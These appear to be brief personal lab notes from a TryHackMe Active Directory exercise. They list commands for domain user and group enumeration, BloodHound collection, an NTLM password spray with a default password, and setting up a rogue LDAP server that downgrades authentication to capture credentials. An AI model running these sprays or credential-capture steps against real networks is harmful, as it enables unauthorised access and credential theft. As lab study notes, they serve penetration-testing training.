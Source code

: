 # Enumeration

# Credential Injection

runas.exe /netonly /user:<domain>\<username> cmd.exe


# enumeration users
users
net user /domain

groups
net group /domain

# Password Policy
net accounts /domain

# bloodhound
SSharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs
sudo neo4j console 
bloodhound --no-sandbox

https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html








# NTLM Authenticated Services
python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/


# LDAP Bind Credentials

[+] LDAP Pass-back Attacks

* hosting rogue ldap
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd

downgrade auth 

olcSaslSecProps.ldif 
         
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
